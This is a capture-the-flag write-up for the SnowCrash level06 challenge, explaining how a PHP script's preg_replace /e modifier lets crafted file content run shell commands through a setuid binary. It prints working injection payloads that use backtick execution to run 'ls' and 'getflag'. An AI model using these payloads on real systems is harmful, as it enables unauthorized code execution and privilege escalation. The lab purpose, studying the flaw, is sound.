 # Level 06

When we examine what's inside the working directory, we get the following files:

    level06@SnowCrash:~$ ls
    level06  level06.php

When analyzing the executable file "level06" we see that it takes a file as argument:

    level06@SnowCrash:~$ ./level06
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

And looks like the source code from which the executable file was compiled from was level06.php:

    level06@SnowCrash:~$ strings level06
    ...
    /usr/bin/php
    /home/user/level06/level06.php
    ...

    level06@SnowCrash:~$ cat level06.php

    #!/usr/bin/php
    <?php
    
    function y($m) { 
	    $m = preg_replace("/\./", " x ", $m); 
	    $m = preg_replace("/@/", " y", $m); return $m; 
	    }
	
    function x($y, $z) { 
	    $a = file_get_contents($y); 
	    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	    return $a; 
	    }
	
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

This PHP script is designed to process a file's content based on specific regular expression replacements.

It looks for patterns like `[x ...]` and replaces them with modified versions of the inner content.

The function y($m) takes a string $m and replaces:
- Every `.` with ` x `.
- Every `@` with ` y`.

The function x($y, $z) takes two arguments, $y and $z.
- $y is the filename whose content will be processed.
- $z is not used in the function.

- preg_replace("/\[/", "(", $a): Replaces all `[` with `(`
- preg_replace("/\]/", ")", $a): Replaces all `]` with `)`


For instance:

    level06@SnowCrash:~$ echo "THIS IS A TEST : [x HELLO ... @@@]" > /tmp/testa
    level06@SnowCrash:~$ ./level06 /tmp/testa
    THIS IS A TEST : HELLO  x  x  x   y y y

    
## Security problem

The use of the `/e` modifier in `preg_replace` is highly insecure as it allows execution of arbitrary PHP code, which means that whatever is parsed is transformed into php code. This can lead to security vulnerabilities such as code injection if the input is not properly sanitized.

Hence, the string remplacement can be evaluated as PHP code, we can execute commands to see if we get lucky:
For example :

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`ls -al`} ]' > /tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    PHP Notice:  Undefined variable: total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
     in /home/user/level06/level06.php(4) : regexp code on line 1  

Now all we have to do is the same but with the getflag program, and we have our token.

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`getflag`} ]' > /tmp/test

https://www.php.net/manual/en/language.operators.execution.php